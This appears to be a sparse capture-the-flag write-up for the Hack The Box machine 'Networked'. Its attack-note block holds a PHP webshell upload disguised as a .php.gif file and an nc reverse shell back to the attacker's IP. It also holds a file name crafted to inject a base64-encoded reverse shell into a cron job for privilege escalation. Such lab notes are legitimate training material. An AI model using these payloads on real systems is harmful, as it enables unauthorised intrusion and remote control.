






# Summary


## about target

tip:  10.129.7.179

hostname:  Networked

Difficulty:  Easy


## about attack

+ file upload, change file extension. abc.php.gif
+ os command injection, exploit.


**attack note**

```bash
networked / 10.129.7.179

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

----interesting
/backup/backup.tar


---- http num

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log -x php,txt

upload.php

---- exploit
upload gif, exploit rce

http://10.129.7.179/uploads/10_10_14_78.php.gif?cmd=uname%20-a

http://10.129.7.179/uploads/10_10_14_78.php.gif?cmd=nc%2010.10.14.78%209001%20-e%20/bin/bash


---- local enum

echo -n 'bash -c "/tmp/9001"' | base64

touch '/var/www/html/uploads/a; echo bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0Ljc4IDkwMDE= | base64 -d | sh;b'

ls -al
```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


# Exploitation

upload file.







# Privesc


## local Enum

user www-data; exploit guly crontab





exploit guly sudo, scripts.




command injection.







## proof

```bash


```


